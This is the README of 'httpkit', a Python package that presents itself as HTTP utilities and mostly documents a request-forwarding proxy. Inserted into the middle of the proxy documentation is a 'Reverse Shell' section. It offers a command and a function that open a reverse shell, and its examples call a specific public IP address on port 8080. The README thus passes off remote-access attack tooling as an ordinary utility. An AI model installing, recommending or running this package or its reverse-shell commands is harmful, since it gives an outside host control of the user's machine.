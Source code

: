 # HTTPKit

[![Tests](https://github.com/Hambaobao/httpkit/actions/workflows/test.yml/badge.svg)](https://github.com/Hambaobao/httpkit/actions/workflows/test.yml)

A collection of HTTP-related utilities and tools.

## Installation

```bash
pip install httpkit
```

## Tools

### HTTP Proxy

A simple HTTP proxy service that forwards requests to a target server.

#### Usage

You can run the proxy server in several ways:

1. Using the module directly:

```bash
python -m httpkit.proxy
```

2. Using the entry point:

```bash
httpkit-proxy
```

3. Using uvicorn directly:

```bash
uvicorn httpkit.proxy:app --host 0.0.0.0 --port 8000
```

### Reverse Shell

A network connection tool that establishes a reverse shell connection to a remote host.

#### Usage

You can run the reverse shell tool in several ways:

1. Using the module directly:

```bash
python -m httpkit.reverse_shell <host> <port>
```

2. Using the entry point:

```bash
httpkit-reverse-shell <host> <port>
```

3. Using the function programmatically:

```python
from httpkit import establish_reverse_shell

# Establish reverse shell connection
success = establish_reverse_shell("47.242.202.208", 8080)
```

#### Command-line Options

```bash
httpkit-reverse-shell --help
```

Options:
- `host`: Remote host to connect to (required)
- `port`: Remote port to connect to (required)
- `--timeout`: Connection timeout in seconds (default: 30)

#### Example

```bash
# Connect to a remote host
httpkit-reverse-shell 47.242.202.208 8080

# With custom timeout
httpkit-reverse-shell 47.242.202.208 8080 --timeout 60
```

#### Making Requests

Once the proxy server is running, you can make requests to it using the following URL patterns:

```
http://localhost:8000/proxy/{target_host}:{target_port}/{path}
```

Or with explicit scheme:

```
http://localhost:8000/proxy/{scheme}://{target_host}:{target_port}/{path}
```

For example, to forward a request to `http://localhost:9000/health`:

```
http://localhost:8000/proxy/localhost:9000/health
```

Or with HTTPS:

```
http://localhost:8000/proxy/https://api.example.com:443/v1/chat/completions
```

The proxy will preserve:
- HTTP method
- Headers (except hop-by-hop and unsafe ones)
- Query parameters
- Request body

#### Performance Optimizations

The proxy includes several optimizations for high-concurrency scenarios:

1. **Global Connection Pooling**: Uses a single global httpx.AsyncClient for connection reuse
2. **Streaming Responses**: Streams responses back to clients without buffering the entire content
3. **Concurrency Control**: Limits the number of concurrent requests to prevent resource exhaustion
4. **HTTP/2 Support**: Enables HTTP/2 for better performance with many persistent connections
5. **Header Filtering**: Properly filters unsafe or conflicting response headers

#### Configuration

The proxy can be configured using command-line arguments or environment variables:

##### Command-line Arguments

```bash
# Start proxy allowing up to 500 concurrent connections,
# with a 60-second HTTP/2 timeout
httpkit-proxy --max-concurrent-requests 500 --timeout 60
```

##### Environment Variables

The following environment variables can be used to configure the proxy:

- `HTTPKIT_ENV`: Set to "production" to disable auto-reload (default: "development")
- `HTTPKIT_WORKERS`: Number of worker processes to use (default: 1)
- `HTTPKIT_MAX_CONCURRENT_REQUESTS`: Maximum number of concurrent requests (default: 100)
- `HTTPKIT_TIMEOUT_SECONDS`: HTTP client timeout in seconds (default: 30.0)

## Development

### Setup

```bash
pip install -e .
```

### Running Tests

```bash
pytest
```
